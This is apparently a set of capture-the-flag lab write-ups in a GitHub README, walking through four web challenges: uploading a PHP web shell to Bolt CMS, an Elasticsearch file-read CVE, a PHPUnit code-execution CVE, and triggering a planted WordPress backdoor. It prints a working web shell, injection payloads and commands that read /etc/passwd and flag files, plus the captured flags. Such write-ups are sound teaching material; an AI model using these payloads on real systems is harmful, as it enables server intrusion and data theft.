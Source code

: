 # cybersec-labs
# bolt
Let's try: View Page Source, pay attantion to p This website is... /p, add /bolt to url and guess the user and pass.

Once you are in you need to go to file management to see if you can upload some malicious files. Let’s try to create and upload vulnerable rce.html file

click file and start editing < ?php echo system($_GET['cmd']);? >
Go to options and rename the rce.html file to rce.php

Click on rce.php
Add cmd=id
![image](https://github.com/Mariam-kabu/cybersec-labs/assets/82336496/df5e1a0b-ae6a-426a-b5eb-357c129ce98e)
cmd=ls-l
![image](https://github.com/Mariam-kabu/cybersec-labs/assets/82336496/a63d43e0-1f44-4230-8e83-630f0cfdc486)
cat /flag.txt
CTF{b12e3b34c581d4f3c66c00cc7f8dabec8838dab0acf26c2cfbe2f7d291326f75}
# elastic
![image](https://github.com/Mariam-kabu/cybersec-labs/assets/82336496/219165d6-3a23-41a4-8efa-ff035e7b89b1)
Hints:
Hint 1:  Elasticsearch < 1.6.1 Arbitrary file read CVE (version)

The main web page exposure the sensitive information about the version of Elasticsearch
application. 

The main of this scenario is to identify the vulnerability like in the real scenario.

Try to find an exploit

Searchable archive from The Exploit Database. https://www.exploit-db.com/

Search for remote oracle exploits for windows:
Installation:

$sudo apt install exploitdb

$sudo apt install libxml2-utils

Dependencies: libxml2-utils

$searchsploit elasticsearch

The vulnerability present in the current scenario, offers more details about 
CVE-2015-5531- Arbitrary file Vulnerability. 

Exploit can be found here:

https://github.com/nixawk/labs/blob/master/CVE-2015-5531/exploit.py

$ python3 exploit.py URL /etc/passwd 
![image](https://github.com/Mariam-kabu/cybersec-labs/assets/82336496/a2ea58dc-fabc-4f50-a8ee-0ba19366d4c8)
CTF{265b92ed0091f139fdcd438196426f205fed9b14bce765bafd8344b1d96183e5}
# php unit
A website is provided as a reference to my unit is feeling a little off. So first we can try to understand php unit. For example, we can use the automatic tool Dirsearch, which brute force searches for vulnerabilities in directories.

$ dirsearch -u URL

From these addresses we can select the ones that are interesting to us like /composer.json, Here we can find version of php-unit and /eval-stding.php
Vulnerable path. Let’s check: /composer.json where we can understand that our php uni is vulnerable (CVE-2017-9841).

Now exploit the vulnerable path using Burpsuite: < ?php system('cat /flag.txt')? >
CTF{8c7795c5332da1491741a61fe780006a619273444bfe54aff555e28f83e3b123}
# nodiff-backdoor
After performing some recon using *dirsearch* on the targeted web application, we can find a *backup.zip* archive.

$ dirsearch -u URL

Download the backup file from the following url: http://34.107.45.207:30148//backup.zip 
(take note that the IP address can change based on the functionality of the CyberEDU platform.) 

In this way, we obtain the source code of the application.

$ wget http://34.107.45.207:30148//backup.zip 

Copy backup.zip to the new folder and unzip it. 

Now is time to find some backdoor. Because application use PHP code we try to search from vulnerable function in PHP:
https://gist.github.com/mccabe615/b0907514d34b2de088c4996933ea1720

We can try search for all the vulnerable functions. After few tries observe we got the vulnerable function (shell_exec()) in the next path: “wp-content/themes/twentytwentytwo/functions.php”

$ grep –r “shell_exec(“

Next step is to execute the backdoor to access the server base on what we got. 
If we have the parameter welldone=knockknock, then execute parameter shazam=<injection>
![image](https://github.com/Mariam-kabu/cybersec-labs/assets/82336496/5ed643c1-2038-4a23-ba9f-b3c823729699)
![image](https://github.com/Mariam-kabu/cybersec-labs/assets/82336496/5fbc856c-6241-4c2a-a001-2a9c9174004b)
Now let’s get the flag in the source of the page:
http://34.107.45.207:30148/?welldone=knockknock&shazam=id

http://34.107.45.207:30148/?welldone=knockknock&shazam=cat flag.php
CTF{87702788126237df9c4a915fea9441345dc6b3a0272b214b2c31e50a8f89c4b1}

